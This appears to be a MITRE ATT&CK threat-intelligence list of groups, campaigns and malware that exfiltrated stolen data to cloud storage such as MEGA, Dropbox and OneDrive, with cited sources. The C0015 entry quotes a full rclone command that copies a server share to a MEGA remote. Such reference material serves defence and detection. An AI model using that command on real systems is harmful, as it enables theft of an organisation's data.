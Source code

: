 - [C0015] C0015: During [C0015](https://attack.mitre.org/campaigns/C0015), the threat actors exfiltrated files and sensitive data to the MEGA cloud storage site using the [Rclone](https://attack.mitre.org/software/S1040) command `rclone.exe copy --max-age 2y "\\SERVER\Shares" Mega:DATA -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M`.(Citation: DFIR Conti Bazar Nov 2021)
- [S0660] Clambling: [Clambling](https://attack.mitre.org/software/S0660) can send files from a victim's machine to Dropbox.(Citation: Trend Micro DRBControl February 2020)(Citation: Talent-Jump Clambling February 2020)
- [G1021] Cinnamon Tempest: [Cinnamon Tempest](https://attack.mitre.org/groups/G1021) has uploaded captured keystroke logs to the Alibaba Cloud Object Storage Service, Aliyun OSS.(Citation: Sygnia Emperor Dragonfly October 2022)
- [S0538] Crutch: [Crutch](https://attack.mitre.org/software/S0538) has exfiltrated stolen data to Dropbox.(Citation: ESET Crutch December 2020)
- [S1172] OilBooster: [OilBooster](https://attack.mitre.org/software/S1172) can exfiltrate files to an actor-controlled OneDrive account via the Microsoft Graph API.(Citation: ESET OilRig Downloaders DEC 2023)
- [S0340] Octopus: [Octopus](https://attack.mitre.org/software/S0340) has exfiltrated data to file sharing sites.(Citation: ESET Nomadic Octopus 2018)
- [G0102] Wizard Spider: [Wizard Spider](https://attack.mitre.org/groups/G0102) has exfiltrated stolen victim data to various cloud storage providers.(Citation: Mandiant FIN12 Oct 2021)
- [G0119] Indrik Spider: [Indrik Spider](https://attack.mitre.org/groups/G0119) has exfiltrated data using [Rclone](https://attack.mitre.org/software/S1040) or MEGASync prior to deploying ransomware.(Citation: Mandiant_UNC2165)
- [G0010] Turla: [Turla](https://attack.mitre.org/groups/G0010) has used WebDAV to upload stolen USB files to a cloud drive.(Citation: Symantec Waterbug Jun 2019) [Turla](https://attack.mitre.org/groups/G0010) has also exfiltrated stolen files to OneDrive and 4shared.(Citation: ESET ComRAT May 2020)
- [G0125] HAFNIUM: [HAFNIUM](https://attack.mitre.org/groups/G0125) has exfiltrated data to file sharing sites, including MEGA.(Citation: Microsoft HAFNIUM March 2020)
- [S0363] Empire: [Empire](https://attack.mitre.org/software/S0363) can use Dropbox for data exfiltration.(Citation: Github PowerShell Empire)
- [G1006] Earth Lusca: [Earth Lusca](https://attack.mitre.org/groups/G1006) has used the megacmd tool to upload stolen files from a victim network to MEGA.(Citation: TrendMicro EarthLusca 2022)
- [G1003] Ember Bear: [Ember Bear](https://attack.mitre.org/groups/G1003) has used tools such as [Rclone](https://attack.mitre.org/software/S1040) to exfiltrate information from victim environments to cloud storage such as `mega.nz`.(Citation: CISA GRU29155 2024)
- [G1022] ToddyCat: [ToddyCat](https://attack.mitre.org/groups/G1022) has used a DropBox uploader to exfiltrate stolen files.(Citation: Kaspersky ToddyCat Check Logs October 2023)
- [G0128] ZIRCONIUM: [ZIRCONIUM](https://attack.mitre.org/groups/G0128) has exfiltrated stolen data to Dropbox.(Citation: Zscaler APT31 Covid-19 October 2020)
- [C0040] APT41 DUST: [APT41 DUST](https://attack.mitre.org/campaigns/C0040) exfiltrated collected information to OneDrive.(Citation: Google Cloud APT41 2024)
- [S0651] BoxCaon: [BoxCaon](https://attack.mitre.org/software/S0651) has the capability to download folders' contents on the system and upload the results back to its Dropbox drive.(Citation: Checkpoint IndigoZebra July 2021)
- [C0022] Operation Dream Job: During [Operation Dream Job](https://attack.mitre.org/campaigns/C0022), [Lazarus Group](https://attack.mitre.org/groups/G0032) used a custom build of open-source command-line dbxcli to exfiltrate stolen data to Dropbox.(Citation: ESET Lazarus Jun 2020)(Citation: ClearSky Lazarus Aug 2020)
- [S1102] Pcexter: [Pcexter](https://attack.mitre.org/software/S1102) can upload stolen files to OneDrive storage accounts via HTTP `POST`.(Citation: Kaspersky ToddyCat Check Logs October 2023)
- [G0114] Chimera: [Chimera](https://attack.mitre.org/groups/G0114) has exfiltrated stolen data to OneDrive accounts.(Citation: NCC Group Chimera January 2021)
- [G1015] Scattered Spider: [Scattered Spider](https://attack.mitre.org/groups/G1015) has exfiltrated victim data to the MEGA file sharing site.(Citation: CISA Scattered Spider Advisory November 2023)(Citation: MSTIC Octo Tempest Operations October 2023)
- [S0240] ROKRAT: [ROKRAT](https://attack.mitre.org/software/S0240) can send collected data to cloud storage services such as PCloud.(Citation: Malwarebytes RokRAT VBA January 2021)(Citation: Volexity InkySquid RokRAT August 2021)
- [S0635] BoomBox: [BoomBox](https://attack.mitre.org/software/S0635) can upload data to dedicated per-victim folders in Dropbox.(Citation: MSTIC Nobelium Toolset May 2021)
- [G0046] FIN7: [FIN7](https://attack.mitre.org/groups/G0046) has exfiltrated stolen data to the MEGA file sharing site.(Citation: CrowdStrike Carbon Spider August 2021)
